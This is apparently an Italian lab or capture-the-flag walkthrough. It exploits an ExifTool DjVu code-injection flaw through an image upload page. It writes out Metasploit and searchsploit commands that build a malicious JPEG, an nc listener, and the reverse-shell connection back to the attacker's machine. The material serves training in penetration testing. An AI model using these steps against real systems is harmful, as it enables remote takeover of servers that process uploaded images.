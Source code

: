 ```
search ExifTool
```

```
use exploit/unix/fileformat/exiftool_djvu_ant_perl_injection
```

```
show options
```

```
run
```

```
msf6 exploit(unix/fileformat/exiftool_djvu_ant_perl_injection) > run

[+] msf.jpg stored at /root/.msf4/local/msf.jpg

```
ci mettiamo in ascolto
```
nc -lvnp 4444
```
e facciamo upload del nostro cane msf.jpg

visitiamo la nostra pagina de l cane ed otteniamo la reverse shell!!

**oppure** possiamo ottenere la reverse shell anche con questo script in python!

```
searchsploit ExifTool
```

```
ExifTool 12.23 - Arbitrary Code Execution                                                                     | linux/local/50911.py
```

```
searchsploit -m 50911
```

```
python3 50911.py
```
creiamo il nostro payload file image.jpg 
```
python3 50911.py -s 10.14.99.134 1234
```

se riceviamo errori di comando bzz non trovato installarlo

**bzz** - Utilità di compressione DjVu per uso generale.
```
sudo apt-get update
```

```
sudo apt-get install djvulibre-bin
```
ci mettiamo in ascolto
```
nc -lvnp 1234
```
uplodiamo il nostro file image.jpg
```
http://10.10.159.198/upload/
```
visitiamo la pagina del nostro cane ed otteniamo la reverse shell!
```
└─$ nc -lvnp 1234                        
listening on [any] 1234 ...
connect to [10.14.99.134] from (UNKNOWN) [10.10.56.138] 59560
```